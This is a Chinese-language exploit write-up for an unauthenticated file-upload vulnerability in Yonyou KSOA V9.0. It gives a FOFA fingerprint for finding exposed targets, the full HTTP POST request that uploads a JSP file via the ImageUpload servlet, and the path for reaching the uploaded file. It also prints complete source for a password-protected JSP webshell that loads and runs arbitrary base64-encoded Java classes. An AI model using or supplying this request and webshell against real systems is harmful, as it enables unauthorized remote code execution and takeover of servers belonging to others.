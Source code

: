 # 

# 用友时空 KSOA V9.0 文件上传漏洞

## 漏洞描述

用友时空 KSOA 是用友网络科技股份有限公司建立在 SOA 理念指导下研发的新一代产品，其中 com.sksoft.bill.ImageUpload 存在前台文件上传漏洞，攻击者可以在不登陆的情况下上传恶意 Webshell，控制系统权限。

## 网络测绘

```
app="用友-时空KSOA"
```

## 漏洞复现

登录界面：

![image-20230601102416204](images/image-20230601102416204.png)

漏洞 URL：

```
/servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=
```

发送数据包：

```
POST /servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=1.jsp HTTP/1.1
Host: your-ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://en.fofa.info/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=825A011F31259CCA1649D5DF4849635E
Connection: close
Content-Length: 1

<%!
your-payload
%>
```

![image-20230601102530120](images/image-20230601102530120.png)

访问 /pictures/1.jsp 即可。

### Webshell

密码：passwd

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```


